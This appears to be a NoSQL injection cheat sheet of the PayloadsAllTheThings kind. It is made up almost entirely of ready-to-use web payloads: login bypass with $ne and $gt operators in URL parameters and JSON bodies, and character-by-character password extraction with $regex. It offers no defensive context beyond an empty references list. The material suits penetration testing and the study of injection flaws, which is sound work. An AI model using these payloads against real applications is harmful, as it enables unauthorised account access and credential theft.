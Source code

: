 # NoSQLInjection

## Exploit
_Basic authentication bypass using not equal ($ne) or greater ($gt)_
```
in URL
username[$ne]=toto&password[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
_Extract length information_
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```
_Extract data information_
```
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

# References:
- 
-
